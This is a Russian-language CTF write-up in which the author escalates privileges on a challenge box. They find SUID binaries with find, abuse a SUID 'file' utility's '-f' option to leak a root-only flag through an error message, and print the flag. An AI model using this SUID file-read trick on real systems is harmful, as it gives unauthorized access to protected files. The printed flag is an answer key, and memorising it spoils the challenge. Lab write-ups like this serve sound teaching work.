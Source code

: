 # Secure Unusual Iconical Dock writeup
Попав на сервер, видим флаг в текущей директории:

```bash
$ ls
flag.txt
```

Но при попытке открыть получаем:

```bash
$ cat flag.txt
cat: flag.txt: Permission denied
```

Это означает, что у нас недостаточно привелегий для совершения данного действия. Давайте в этом убедимся:

```bash
$ ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Oct 10 18:05 .
drwxr-xr-x 1 root root 4.0K Oct 10 18:10 ..
-r-------- 1 root root   53 Oct 10 18:04 flag.txt
```

Как понятно из вывода **ls**, никто кроме **root** не может читать флаг. Поэтому, нам нужно каким-то образом повысить свои привелегии. Гугл и аббревиатура названия таска (**S**ecure **U**nusual **I**conical **D**ock) ведут нас к термину **SUID**. SUID - режим запускаемого файла, который позволяет любому пользователю запускать файл с привелегиями его владельца. Давайте поищем такие бинари на машине:

```bash
$ find / -type f -perm -4000 2>>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/file
```

И среди прочего мы видим необычную для SUID утилиту - **file**. Эта утилита отобржаает формат файла и некоторую информацию о нем. Полезным нам флагом является "-f" - он читает из указаанного файла список файлов и по очереди обрабатывает их все. А как мы знаем, если мы пытаемся открыть несуществующий файл, то прога, с помощью которой мы это делаем, выбросит примерно такую ошибку: `${program_name}: ${filename}: No such file or directory`. Используем это удобное свойство:

```bash
$ file -f flag.txt
li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}: cannot open `li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}' (No such file or directory)
```

P.S. `2>>/dev/null`  - это небольшой трюк, который позволяет скрыть ошибки программы (так как **find** будет печатать каждый Permission Denied, который он встретит, а нам явно это не нужно). Фактически, это перенаправляет `stderr` программы в специальный девайс - **/dev/null**

Флаг: `li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}`
